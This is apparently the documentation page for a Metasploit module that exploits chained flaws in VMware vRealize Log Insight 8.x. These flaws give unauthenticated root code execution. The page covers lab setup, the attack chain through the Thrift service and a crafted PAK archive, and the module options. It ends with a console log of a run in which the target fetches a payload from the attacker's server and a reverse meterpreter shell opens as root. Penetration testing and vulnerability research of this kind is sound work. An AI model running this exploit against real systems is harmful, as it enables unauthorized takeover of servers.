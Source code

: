 ## Vulnerable Application

vRealize Log Insight provides intelligent log management for infrastructure and applications
in any environment. This highly scalable log management solution delivers intuitive, actionable
dashboards, sophisticated analytics, and broad third-party extensibility across physical, virtual,
and cloud environments.

VMWare vRealize Log Insightis versions v8.x contain multiple vulnerabilities, such as
directory traversal, broken access control, deserialization, and information disclosure.
When chained together, these vulnerabilities allow a remote, unauthenticated attacker to
execute arbitrary commands on the underlying operating system as the root user.

This module exploits multiple vulnerabilities for achieving unauthenticated remote code execution
on the VMware vRealize Log Insight version `v8.x`. Module achieves code execution via triggering a
`RemotePakDownloadCommand` command via the exposed thrift service after obtaining the node token by
calling a `GetConfigRequest` thrift command. After the download, it will trigger a `PakUpgradeCommand` for
processing the specially crafted PAK archive, which then will place the JSP payload under a
certain API endpoint (pre-authenticated) location upon extraction for gaining remote code execution.

The original analysis and POC is done by the Horizon3.ai Team.
Check [here](https://www.horizon3.ai/vmware-vrealize-log-insight-vmsa-2023-0001-technical-deep-dive/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable OVA image, first create a customer account at
[VMware](https://customerconnect.vmware.com/account-registration) (trial license is sufficient)
2. Navigate [here](https://customerconnect.vmware.com/account-registration) and download `Virtual Appliance`
3. Import the OVA image into a virtualization software (VirtualBox is used for this case).
4. Start the `VMware_vCenter_Log_Insight` image and proceed with the initial installation steps through the web interface of the product.

After these steps, the web portal (port 80/443) and Apache thrift service (port 16520) should be accessible.

## Verification Steps

1. msfconsole
2. Do: `use exploit/linux/http/vmware_vrli_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

### THRIFT_PORT
This is the Thrift service port for VMware xRealize Log Insight.

### THRIFT_TIMEOUT
This value represents the timeout duration for thrift service responses.

## Scenarios

```
msf6 > use exploit/linux/http/vmware_vrli_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrli_rce) > set rhosts 192.168.56.107
rhosts => 192.168.56.107
msf6 exploit(linux/http/vmware_vrli_rce) > set srvhost 192.168.56.1 
srvhost => 192.168.56.1
msf6 exploit(linux/http/vmware_vrli_rce) > set lhost 192.168.56.1 
lhost => 192.168.56.1
msf6 exploit(linux/http/vmware_vrli_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.107:443 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.56.107:443 - Checking if 192.168.56.107:443 can be exploited.
[+] 192.168.56.107:443 - The target appears to be vulnerable. VMware XRLI Version: 8.10
[*] 192.168.56.107:443 - Starting Payload Server
[*] 192.168.56.107:443 - Using URL: http://192.168.56.1:8080/ILYBLTY.tar
[*] 192.168.56.107:443 - Fetching thrift config...
[+] 192.168.56.107:443 - Obtained node token: 015dd665-9f84-4efc-9fd2-1ea2e467dbf8
[*] 192.168.56.107:443 - Sending getNodeType...
[*] 192.168.56.107:443 - Sending RemotePakDownloadCommand...
[*] 192.168.56.107:443 - Encoding the payload as JSP
[*] 192.168.56.107:443 - Malicious TAR payload created (116224 bytes)
[+] 192.168.56.107:443 - Payload requested by 192.168.56.107:443, sending...
[*] 192.168.56.107:443 - Sending PakUpgradeCommand...
[+] 192.168.56.107:443 - PakUpgrade is successfull
[*] 192.168.56.107:443 - 192.168.56.107:443 - Triggering JSP payload...
[*] Sending stage (3045380 bytes) to 192.168.56.107
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.107:55500) at 2023-08-08 22:41:59 +0200
[*] 192.168.56.107:443 - Server stopped.

meterpreter > sysinfo 
Computer     : 192.168.56.107
OS           : VMware Photon OS 3.0 (Linux 4.19.256-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: root
meterpreter > 

```
